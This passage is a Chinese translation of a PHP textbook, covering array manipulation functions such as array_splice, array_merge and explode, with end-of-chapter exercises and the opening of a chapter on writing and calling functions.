"title" => "Travels With Charley",
"author" => "John Steinbeck",
"pubYear" => 1962
),
array(
"title" => "The Trial",
"author" => "Franz Kafka",
"pubYear" => 1925
),
array(
    "title" => "The Hobbit",
    "author" => "J. R. R. Tolkien",
    "pubYear" => 1937
),
array(
    "title" => "A Tale of Two Cities",
    "author" => "Charles Dickens",
    "pubYear" => 1859
),
);

array_multisort( $myBooks );
echo "<pre>";
print_r( $myBooks );
echo "</pre>";
?>

</body>
</html>
```



图 6-6

你可以看到，`array_multisort()` 已按标题对 `$myBooks` 数组进行了排序。如果要按作者，然后按出版年份，最后按标题排序呢？在这种情况下，你需要更改嵌套关联数组中元素的顺序：

```
$myBooks = array(
    array(
        "author" => "John Steinbeck",
        "pubYear" => 1939,
        "title" => "The Grapes of Wrath"
    ),
    array(
        "author" => "John Steinbeck",
        "pubYear" => 1962,
        "title" => "Travels With Charley"
    ),
    array(
        "author" => "Franz Kafka",
        "pubYear" => 1925,
        "title" => "The Trial"
    ),
    array(
        "author" => "J. R. R. Tolkien",
        "pubYear" => 1937,
        "title" => "The Hobbit"
    ),
    array(
        "author" => "Charles Dickens",
        "pubYear" => 1859,
        "title" => "A Tale of Two Cities"
    )
);
```

对此数组运行 `array_multisort()` 会产生图 6-7 所示的结果。



图 6-7

array_multisort() 保留字符串键与其值之间的关联，但会重新索引数字键。

## 添加和删除数组元素

你已经知道可以使用方括号语法向数组添加元素。例如：

```
$myArray[] = "new value";
$myArray["newKey"] = "new value";
```

这种语法对于简单场景足够了。但是，如果你需要更强大的功能，PHP 提供了五个有用的函数，你可以使用它们来添加和删除元素：

- array_unshift() — 向数组开头添加一个或多个新元素
- array_shift() — 从数组开头移除第一个元素
- array_push() — 向数组末尾添加一个或多个新元素
- array_pop() — 从数组末尾移除最后一个元素
- array_splice() — 在数组中的任意位置移除和/或添加元素

### 在开头和结尾添加和删除元素

你可以使用 `array_unshift()` 在数组开头插入一个或多个元素。只需传入数组，然后传入要添加的一个或多个元素。该函数返回数组中元素的新数量。例如：

```php
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
echo array_unshift( $authors, "Hardy", "Melville" ) . "<br/> "; // Displays "6"

// Displays "Array ( [0] => Hardy [1] => Melville [2] => Steinbeck [3] => Kafka [4] => Tolkien [5] => Dickens )"
print_r( $authors );
```

你不能使用 `array_unshift()`（或其对应函数 `array_pop()`）向关联数组添加键/值对。但是，你可以通过使用 `array_merge()` 来解决这个问题，该函数将在本章后面讨论。

`array_shift()` 从数组中移除第一个元素，并返回其值（但不返回其键）。要使用它，请将相关数组传递给 `array_shift()`：

```php
$myBook = array( "title" => "The Grapes of Wrath",
       "author" => "John Steinbeck",
       "pubYear" => 1939 );

echo array_shift( $myBook ) . "<br/> "; // Displays "The Grapes of Wrath"
// Displays "Array ( [author] => John Steinbeck [pubYear] => 1939 )"
print_r( $myBook );
```

要向数组末尾添加元素，你当然可以使用之前提到的方括号语法。你也可以使用 `array_push()`，它允许你一次添加多个元素（并且还会告诉你数组的新长度）。其使用方式与 `array_unshift()` 非常相似：传入数组，然后传入要添加的值。这是一个示例：

```php
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
echo array_push( $authors, "Hardy", "Melville" ) . "<br/> "; // Displays "6"

// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Tolkien [3] => Dickens [4] => Hardy [5] => Melville )"
print_r( $authors );
```


顺便说一句，使用 `array_unshift()` 和 `array_push()` 时，如果将数组作为要添加的值之一，该数组会作为一个元素被添加到原始数组中，从而将原始数组转变为多维数组：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$newAuthors = array( "Hardy", "Melville" );
echo array_push( $authors, $newAuthors ) . "<br/> "; // Displays "5"

/*
   Displays:
   Array
   (
       [0] => Steinbeck
       [1] => Kafka
       [2] => Tolkien
       [3] => Dickens
       [4] => Array
       (
           [0] => Hardy
           [1] => Melville
       )
   )
*/

print "<pre>";
print_r( $authors );
print "</pre>";
```

如果你想将数组的各个元素单独添加到原始数组中，请使用 `array_merge()`（本章后面将讨论）。

`array_pop()` 是 `array_shift()` 的对应函数；它从数组中删除最后一个元素并返回该元素的值。使用时，传入要删除元素的数组即可：

```
$myBook = array( "title" => "The Grapes of Wrath",
                 "author" => "John Steinbeck",
                 "pubYear" => 1939 );

echo array_pop( $myBook ) . "<br/> "; // Displays "1939"

// Displays "Array ( [title] => The Grapes of Wrath [author] => John Steinbeck )"
print_r( $myBook );
```

`array_push()` 和 `array_pop()` 非常适合创建后进先出（LIFO）堆栈。你可以使用 `array_push()` 将新值添加到堆栈“顶部”，然后使用 `array_pop()` 检索最近添加的值。如果你编写大量递归代码，堆栈非常有用。（第 7 章将介绍递归。）

## 在中间添加和删除元素

如果你想做的事情比在数组开头或结尾添加或删除值要复杂一些，则需要更强大的 `array_splice()` 函数。该函数相当于字符串操作函数 `substr_replace()` 的数组版本。（第 5 章介绍过 `substr_replace()`。）

`array_splice()` 允许你删除数组中的一系列元素，并用另一个数组的元素替换它们。删除和替换都是可选的，这意味着你可以只删除元素而不添加新元素，也可以只插入新元素而不删除任何元素。

其工作原理如下。`array_splice()` 接受要操作的数组，以及开始 splice 操作的第一个元素的位置（从零开始计数）。（请记住，所有数组——即使是关联数组——都有元素定位的概念。）接下来，传入一个可选参数来指定要删除的元素数量；如果省略，该函数会删除从起始点到数组末尾的所有元素。最后，可以传入另一个可选参数，即要插入的元素数组。

`array_splice()` 返回一个包含提取的元素（如果有的话）的数组。

## 尝试使用 array_splice()

以下示例脚本展示了如何使用 `array_splice()` 的各种参数。将其保存为 `array_splice.php` 并放置在文档根目录文件夹中，然后在 Web 浏览器中打开。图 6-8 显示了结果。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Using array_splice()</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
h2, pre { margin: 1px; }
table { margin: 0; border-collapse: collapse; width: 100%; }
th { text-align: left; }
th, td { text-align: left; padding: 4px; vertical-align: top; border: 1px solid gray; }
</style>
</head>
<body>
<h1>Using array_splice()</h1>

<?php
$headingStart = '<tr><th colspan="4"><h2>';
$headingEnd = '</h2></th></tr>';
$rowStart = '<tr><td><pre>';
$nextCell = '</pre></td><td><pre>';
$rowEnd = '</pre></td></tr>';

echo '<table cellpadding="0" cellspacing="0"><tr><th>Original array</th><th>Removed</th><th>Added</th><th>New array</th></tr>';
echo "{$headingStart}1. Adding two new elements to the middle{$headingEnd}";
$authors = array( "Steinbeck", "Kafka", "Tolkien" );
$arrayToAdd = array( "Melville", "Hardy" );
echo $rowStart;
print_r( $authors );
echo $nextCell;
print_r( array_splice( $authors, 2, 0, $arrayToAdd ) );
echo $nextCell;
print_r( $arrayToAdd );
echo $nextCell;
print_r( $authors );
echo $rowEnd;
echo "{$headingStart}2. Replacing two elements with a new element{$headingEnd}";

$authors = array( "Steinbeck", "Kafka", "Tolkien" );
$arrayToAdd = array( "Bronte" );
echo $rowStart;
print_r( $authors );
echo $nextCell;
print_r( array_splice( $authors, 0, 2, $arrayToAdd ) );
echo $nextCell;
print_r( $arrayToAdd );
echo $nextCell;
print_r( $authors );
echo $rowEnd;

echo "{$headingStart}3. Removing the last two elements{$headingEnd}";
$authors = array( "Steinbeck", "Kafka", "Tolkien" );
echo $rowStart;
print_r( $authors );
echo $nextCell;
print_r( array_splice( $authors, 1 ) );
echo $nextCell;
echo "Nothing";
echo $nextCell;
print_r( $authors );
echo $rowEnd;

echo "{$headingStart}4. Inserting a string instead of an array{$headingEnd}";
$authors = array( "Steinbeck", "Kafka", "Tolkien" );
echo $rowStart;
print_r( $authors );
echo $nextCell;
print_r( array_splice( $authors, 1, 0, "Orwell" ) );
echo $nextCell;
echo "Orwell";
echo $nextCell;
print_r( $authors );
echo $rowEnd;

echo '</table>';
?>
</body>
</html>
```



图 6-8

## 工作原理

此脚本演示了 `array_splice()` 的四种不同用法，并以 HTML 表格显示结果。第一个示例在数组的第三个位置插入两个新元素，显示被删除的元素；在此例中，由于未删除任何元素，因此显示的是一个空数组：

```
print_r( array_splice( $authors, 2, 0, $arrayToAdd ) );
```

这行代码可以理解为：“在第三个位置（2），删除零个（0）元素，然后插入 $arrayToAdd”。

第二个示例演示了如何同时删除和插入元素：

```
print_r( array_splice( $authors, 0, 2, $arrayToAdd ) );
```

这段代码从数组开头（位置 0）删除两个元素，然后在位置 0 插入 $arrayToAdd 的内容。

第三个示例展示了如果省略第三个参数会发生什么：

```
print_r( array_splice( $authors, 1 ) );
```

这段代码删除数组中从第二个位置（位置 1）到数组末尾的所有元素。

最后，第四个示例演示了第四个参数不必传入数组。如果你只有一个元素要添加——比如说是一个字符串值——可以直接传入该值。这是因为 `array_splice()` 在使用前会自动将第四个参数转换为数组。因此，字符串 "Orwell" 会在添加到数组之前先被转换为包含单个元素（"Orwell"）的数组：

```
print_r( array_splice( $authors, 1, 0, "Orwell" ) );
```

顺便说一句，你可能已经注意到，脚本通过创建变量来存储标记片段（$headingStart、$headingEnd、$rowStart、$nextCell、$rowEnd），从而输出了大量重复的标记。这不仅使 PHP 代码更加紧凑且易于理解，而且在以后需要更改标记时也更加方便。

请注意，插入数组时，插入元素的键不会保留；相反，它们会使用数字键重新索引。因此，`array_splice()` 不太适合插入关联数组。

例如：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien" );
array_splice( $authors, 1, 0, array( "authorName" => "Milton" ) );
echo "<pre>";
print_r( $authors );
echo "</pre>";
```

这段代码产生以下结果：

```
Array
(
    [0] => Steinbeck
    [1] => Milton
    [2] => Kafka
    [3] => Tolkien
)
```

请注意，"Milton" 元素的原始键（"authorName"）已被数字键（1）替换。

## 合并数组

如果你想将两个或多个数组合并为一个大数组，需要使用 `array_merge()` 函数。该函数接受一个或多个数组作为参数，并返回合并后的数组。（原始数组不受影响。）


下面是一个示例：

```
$authors = array( "Steinbeck", "Kafka" );
$moreAuthors = array( "Tolkien", "Milton" );

// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Tolkien [3] => 
Milton )"
print_r( array_merge( $authors, $moreAuthors ) );
```

请注意，array_merge() 将数组的元素连接在一起以生成最终数组。这与 array_push()、array_unshift() 和方括号语法形成对比，后者都会原样插入数组参数以生成多维数组：

```
$authors = array( "Steinbeck", "Kafka" );
$moreAuthors = array( "Tolkien", "Milton" );
array_push( $authors, $moreAuthors );

// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Array ( [0] => 
Tolkien [1] => Milton ) )"
print_r( $authors );
```

array_merge() 的一个不错的特性是它保留关联数组的键，因此你可以使用它向关联数组添加新的键/值对：

```
$myBook = array( "title" => "The Grapes of Wrath",
                 "author" => "John Steinbeck",
                 "pubYear" => 1939 );

$myBook = array_merge( $myBook, array( "numPages" => 464 ) );

// Displays "Array ( [title] => The Grapes of Wrath [author] => John 
Steinbeck [pubYear] => 1939 [numPages] => 464 )"
print_r ( $myBook );
```

如果使用已经存在于数组中的字符串键添加键/值对，则原始元素会被覆盖。这使得 array_merge() 非常适合更新关联数组：

```
$myBook = array( "title" => "The Grapes of Wrath",
                 "author" => "John Steinbeck",
                 "pubYear" => 1939 );

$myBook = array_merge( $myBook, array( "title" => "East of Eden", "pubYear" 
=> 1952 ) );

// Displays "Array ( [title] => East of Eden [author] => John Steinbeck 
[pubYear] => 1952 )"
print_r ( $myBook );
```

但是，具有相同数字键的元素不会被覆盖；相反，新元素会被添加到数组末尾并赋予一个新索引：

```
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens" );
$authors = array_merge( $authors, array( 0 => "Milton" ) );
```

```
// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Tolkien [3] => Dickens [4] => Milton )"
print_r ( $authors );
```

如果要在保留数字键的同时合并数组，请尝试 array_replace() 函数（PHP 5.3 新增）。有关详细信息，请参见 http://www.php.net/manual/en/function.array-replace.php。

你还可以通过仅传递数组来使用 array_merge() 重新索引单个数字索引数组。如果要确保索引数组的所有元素都是连续索引的，这很有用：

```
$authors = array( 34 => "Steinbeck", 12 => "Kafka", 65 => "Tolkien", 47 => "Dickens" );
```

```
// Displays "Array ( [0] => Steinbeck [1] => Kafka [2] => Tolkien [3] => Dickens )"
print_r( array_merge( $authors ) );
```

## 在数组和字符串之间转换

PHP 提供了一些函数，可让你将字符串转换为数组，或将数组转换为字符串。

要将字符串转换为数组，可以使用 PHP 方便的 explode() 字符串函数。该函数获取一个字符串，根据指定的分隔符字符串将其分割成单独的块，并返回包含这些块的数组。下面是一个示例：

```
$fruitString = "apple,pear,banana,strawberry,peach";
$fruitArray = explode( ",", $fruitString );
```

运行此代码后，$fruitArray 包含一个带有五个字符串元素的数组："apple"、"pear"、"banana"、"strawberry" 和 "peach"。

可以使用第三个参数限制返回数组中的元素数量，在这种情况下，最后一个数组元素包含字符串的其余部分：

```
$fruitString = "apple,pear,banana,strawberry,peach";
$fruitArray = explode( ",", $fruitString, 3 );
```

在此示例中，$fruitArray 包含元素 "apple"、"pear" 和 "banana,strawberry,peach"。

或者，指定一个负的第三个参数，以从数组中排除字符串末尾的那么多组件。例如，在刚才显示的示例中使用 -3 会创建一个仅包含 "apple" 和 "pear" 的数组。（会忽略三个组件 "banana"、"strawberry" 和 "peach"。）

explode() 通常很有用，当你需要从文件中读取一行逗号分隔或制表符分隔的数据并将数据转换为值数组时。

其他有用的字符串转数组函数包括 preg_split()（用于基于正则表达式分割，参见第 18 章）和 str_split()（用于将字符串分割为字符或固定长度字符块 — 有关详细信息，请参见 http://www.php.net/manual/en/function.str-split.php）。

如果要执行 explode() 的相反操作，将数组元素粘合成一个长字符串，请使用 — 你猜对了 — implode()。它需要两个参数：要在字符串中每个元素之间放置的字符，以及包含要放入字符串中的元素的数组。例如，以下代码将 $fruitArray 中的元素连接起来形成一个长字符串 $fruitString，每个元素之间用逗号分隔：

```
$fruitArray = array( "apple", "pear", "banana", "strawberry", "peach" );
$fruitString = implode( ",", $fruitArray );

// Displays "apple,pear,banana,strawberry,peach"
echo $fruitString;
```

## 将数组转换为变量列表

你在本章中学到的最后一个数组操作工具是 list()。这个结构提供了一种简单的方法，将数组的值提取到单独的变量中。请考虑以下代码：

```
$myBook = array( "The Grapes of Wrath", "John Steinbeck", 1939 );

$title = $myBook[0];
$author = $myBook[1];
$pubYear = $myBook[2];
```

```
echo $title . "<br />"; // Displays "The Grapes of Wrath"
echo $author . "<br />"; // Displays "John Steinbeck"
echo $pubYear . "<br />"; // Displays "1939"
```

它可行，但相当冗长。这时 list() 就派上用场了。你可以这样使用它：

```
$myBook = array( "The Grapes of Wrath", "John Steinbeck", 1939 );
list( $title, $author, $pubYear ) = $myBook;
```

```
echo $title . "<br />"; // Displays "The Grapes of Wrath"
echo $author . "<br />"; // Displays "John Steinbeck"
echo $pubYear . "<br />"; // Displays "1939"
```

请注意，list() 仅适用于索引数组，并且假设元素从零开始连续索引（即第一个元素的索引为 0，第二个元素的索引为 1，依此类推）。

`list()` 的经典用法是与 `each()` 等函数一起使用，这些函数返回一个值的索引数组。例如，你可以将本章前面“遍历数组”中的 `each()` 示例改写为使用 `list()`：

```
$myBook = array( "title" => "The Grapes of Wrath",
        "author" => "John Steinbeck",
        "pubYear" => 1939 );

while ( list( $key, $value ) = each( $myBook ) ) {
    echo "<dt>$key</dt>";
    echo "<dd>$value</dd>";
}
```

## 摘要

本章向你介绍了另一个重要概念：数组。这些是可以存储多个值的特殊变量，你会发现自己在 PHP 脚本中不断使用它们。

首先，你深入了解了数组的结构，并学习了索引数组和关联数组的概念。然后，你学习了如何在 PHP 中创建数组，以及如何使用方括号和 `array_slice()` 访问数组元素。在此过程中，你了解了一种非常有用的 PHP 函数 `print_r()`，你可以使用它输出整个数组以用于调试目的。

接着，你发现每个 PHP 数组都有一个引用其元素的内部指针，你学习了如何使用此指针通过 `current()`、`key()`、`next()`、`prev()`、`end()` 和 `reset()` 在数组中移动元素。你还使用了方便的 `foreach` 循环结构来遍历数组中的元素。

当你开始将数组嵌套以生成多维数组时，数组会变得非常强大。你学习了如何创建此类数组，以及如何访问其元素并遍历它们。

最后，你探索了一些强大的 PHP 数组操作函数，包括：

- 排序函数 — 你查看了 `sort()`、`asort()`、`ksort()` 和 `array_multisort()` 等函数
- 添加和删除元素的函数 — 这些包括 `array_unshift()`、`array_shift()`、`array_push()`、`array_pop()` 和 `array_splice()`
- `array_merge()` — 此函数可用于合并两个或多个数组
- `explode()` 和 `implode()` — 这些可让你在数组和字符串之间转换
- `list()` — 你可以使用它将数组元素存储在单个变量列表中

PHP 提供的数组相关函数远比本章介绍的多。访问在线 PHP 手册 http://www.php.net/types.array 了解 PHP 提供的其他数组函数的概览会很有帮助。另外，尝试以下两个练习来测试你的数组操作技能。你可以在附录 A 中找到这些练习的解答。

下一章将探讨 PHP 中的函数概念，并向你展示如何创建自己的函数以及构建可重用的代码块。


## 练习

1. 想象一下，两个包含图书和作者信息的数组已从数据库中提取：

```php
$authors = array( "Steinbeck", "Kafka", "Tolkien", "Dickens", "Milton",
"Orwell" );

$books = array(
array(
"title" => "The Hobbit",
"authorId" => 2,
"pubYear" => 1937
),
array(
"title" => "The Grapes of Wrath",
"authorId" => 0,
"pubYear" => 1939
),
array(
"title" => "A Tale of Two Cities",
"authorId" => 3,
"pubYear" => 1859
),
array(
"title" => "Paradise Lost",
"authorId" => 4,
"pubYear" => 1667
),
array(
"title" => "Animal Farm",
"authorId" => 5,
"pubYear" => 1945
),
array(
"title" => "The Trial",
"authorId" => 1,
"pubYear" => 1925
),
);
```

与包含作者名字符串不同，`$books` 数组包含数字索引（键为 "authorId"），指向 `$authors` 数组中相应的元素。编写一个脚本，向 `$books` 数组中的每个关联数组添加一个 "authorName" 元素，该元素包含从 `$authors` 数组中提取的作者名字符串。在网页上显示生成的 `$books` 数组。

2. 想象你正在编写一个计算机游戏扫雷的版本。使用数组在 20 x 20 网格上创建和存储雷区。随机在网格上放置十个地雷，然后显示网格，对地雷使用星号 (*)，对空白方块使用句点 (.)。（提示：要返回 0 到 19 之间（包含 0 和 19）的随机数，请使用 `rand( 0, 19 ).`。）

## 7
## 函数

如果你一直跟着本书学习到现在，你应该已经熟悉函数的概念。你已经使用过内置函数，例如用于确定变量类型的 `gettype()`，以及返回数组中元素数量的 `count()`。

本章正式探讨函数，并展示它们为何如此有用。你将学习：

- 关于如何调用函数的更多内容
- 如何创建自己的函数，使代码更易于阅读和使用
- 参数和实参的所有内容——你使用它们向函数传递值——以及如何从函数返回值。（使用这些技巧，你的函数可以与调用它们的代码进行通信）
- 变量作用域以及如何利用局部、全局和静态变量来获得优势
- 如何创建匿名函数，当你需要创建简单的一次性函数时，它们非常有用

最后，在本章末尾，你将探索更高级的概念，例如引用——它允许你的函数修改在调用它的代码中创建的变量——以及递归，你可以将其作为循环的替代方案。不过，首先最好从头开始，看看函数到底有什么作用。

### 什么是函数？

通常来说，_函数_（在某些其他语言中也称为_子程序_）是一个自包含的代码块，用于执行特定任务。你使用特殊语法定义函数（本章后面将介绍），然后可以从脚本的其他位置调用该函数。

函数通常接受一个或多个_实参_，这些是由调用函数的代码传递给函数的值。然后函数可以读取和处理这些实参。函数还可以选择返回一个值，该值随后可以由调用代码读取。这样一来，调用代码就可以与函数进行通信。

你可以把函数看作一个黑盒。调用函数的代码不需要知道函数内部有什么；它只需使用函数来完成工作。

### 为什么函数有用

函数是任何编程语言的重要组成部分，你会发现自己在 PHP 中不断地使用和创建函数。函数之所以有用，有许多原因：

- 它们避免代码重复——假设你写了一些 PHP 代码来检查电子邮件地址是否有效。如果你正在编写一个 Web 邮件系统，很可能需要在代码的许多不同位置检查电子邮件地址。如果没有函数，你就得一遍又一遍地复制粘贴同一段代码。但是，如果将验证代码包装在一个函数中，每次需要检查电子邮件地址时，只需调用该函数即可
- 它们使消除错误更容易——这与前一点有关。如果你在整个脚本中复制粘贴了同一段代码二十次，后来发现该代码中有错误，你需要追踪并修复所有二十个错误。如果代码在一个函数中，你只需在一个地方修复这个 bug
- 函数可以在其他脚本中重用——因为函数与脚本的其余部分清晰分离，因此很容易在其他脚本和应用程序中重用同一个函数
- 函数帮助你分解大型项目——编写一个大型 Web 应用程序可能令人望而生畏。通过将代码拆分为函数，你可以将复杂的应用程序分解为一系列相对容易构建的简单部分。（这也使你的代码更易于阅读和维护，并在需要时稍后添加更多功能）

### 调用函数

如果你学习过前面的章节，你已经调用过相当多的 PHP 内置函数。要调用函数，请写出函数名，后跟一对开括号和闭括号：

```
functionName()
```

如果需要向函数传递参数，请将它们放在括号之间，每个参数之间用逗号分隔：

```
functionName( argument )
functionName( argument1, argument2 )
```

如果函数返回一个值，你可以将该值赋给一个变量：

```
$returnVal = functionName( argument );
```

你也可以将返回值直接传递给另一个函数，例如 print()：

```
print( functionName( argument ) );
```

一般来说，函数调用的返回值是一个表达式，这意味着你可以在任何可以使用表达式的地方使用函数的返回值。

当你从脚本中调用函数时，PHP 引擎会跳转到该函数的开头并开始执行其中的代码。当函数执行完毕后，引擎会跳回到调用函数的代码之后的点，并从那里继续。下面是一个简单示例，说明了这一点：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Square roots</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Square roots</h1>
<?php
echo "The square root of 9 is: " . sqrt( 9 ) . "<br/> ";
echo "All done!<br/> ";
?>
</body>
</html>
```

这段代码产生的输出如图 7-1 所示。其工作原理如下：

- 显示 XHTML 页面标题后，第一行 echo() 语句被执行，PHP 引擎对 echo() 语句后面的表达式求值。这包括对 PHP 内置 sqrt() 函数的函数调用，该函数确定其参数（在此例中为 9）的平方根
- 引擎跳转到 sqrt() 函数的代码并运行它。函数完成工作并退出，返回值 3
- 引擎跳回第一条 echo() 语句，既然它知道了 sqrt() 调用的结果，就对表达式的其余部分求值，生成字符串："The square root of 9 is: 3." 然后使用 echo() 语句将该字符串值显示在网页上
- 最后，引擎移到下一行代码，并显示 "All done!" 消息



图 7-1

### 使用可变函数

当你在代码中包含函数调用时，大多数情况下你都知道想要调用的函数名称。但是，有时将函数名称存储在字符串变量中，并在调用函数时使用该变量而不是函数名称是很有用的。下面是一个示例：

```
$squareRoot = "sqrt";
echo "The square root of 9 is: " . $squareRoot( 9 ) . ".<br/>";
echo "All done!<br/>"
```

如你所见，代码的第一行将函数名称 "sqrt" 作为字符串存储在 $squareRoot 变量中。然后在第二行中用这个变量代替函数名称。

这个示例很简单，但它展示了概念是如何工作的。下面是一个稍微复杂一点的示例：

```
$trigFunctions = array( "sin", "cos", "tan" );
$degrees = 30;

foreach ( $trigFunctions as $trigFunction ) {
    echo "$trigFunction($degrees) = " . $trigFunction( deg2rad( $degrees ) )
        . "<br/>"
}
```

这段代码创建了一个包含三个内置函数名称的数组——"sin"、"cos" 和 "tan"——并设置了 $degrees 变量。然后它遍历该数组。对于每个元素，它调用元素中存储名称的函数，传入 $degrees 的值转换为弧度（使用 PHP 内置的 deg2rad() 函数），并显示结果。以下是代码的输出：


sin(30) = 0.5
cos(30) = 0.866025403784
tan(30) = 0.57735026919

在现实世界中，变量函数调用常被用于根据用户输入或其他外部因素等，动态选择要立即执行的函数。您也可以使用它来编写调用用户创建的回调函数或事件处理函数的代码。（您将在第 15 章中创建回调函数，在第 19 章中创建一些事件处理函数。）

## 编写您自己的函数

到目前为止，您已了解函数是非常有用的工具，可让您封装和重用代码，并且您已探索过如何在 PHP 中调用函数。真正的乐趣现在开始，因为您将创建自己的函数。

定义函数非常简单——只需使用以下语法：

```
function myFunc() {
// (do stuff here)
}
```

换句话说，您先写出单词 function，然后跟上要创建的函数名，再跟上一对圆括号。接下来，将函数代码放在花括号（{}）之间。

这是一个简单的示例：

```
function hello() {
 echo "Hello, world!<br/>";
}

// Displays "Hello, world!"
hello();
```

如您所见，此脚本定义了一个名为 hello() 的函数，该函数仅显示字符串 "Hello, world!"。函数定义之后，脚本会调用 hello() 函数以显示输出。

> 请注意，hello() 函数内的代码仅在稍后调用函数时运行，而在创建函数本身时不会运行。仅创建函数并不会运行函数内的代码；您必须显式调用函数才能运行其代码。

### 定义参数

如您所知，函数可以选择接受一个或多个实参（即传递给函数的值）。要告诉 PHP 您希望函数接受实参，请在定义函数时指定一个或多个对应的形参。形参是一个变量，用于保存调用函数时传递给它的值。

严格来说，实参是您传递给函数的值，而形参是函数内部用于接收实参的变量。在实际编程中，程序员经常将这两个术语混用。

要为函数指定形参，请在圆括号之间插入一个或多个变量名，如下所示：

```
function myFunc( $oneParameter, $anotherParameter ) {
  // (do stuff here)
}
```

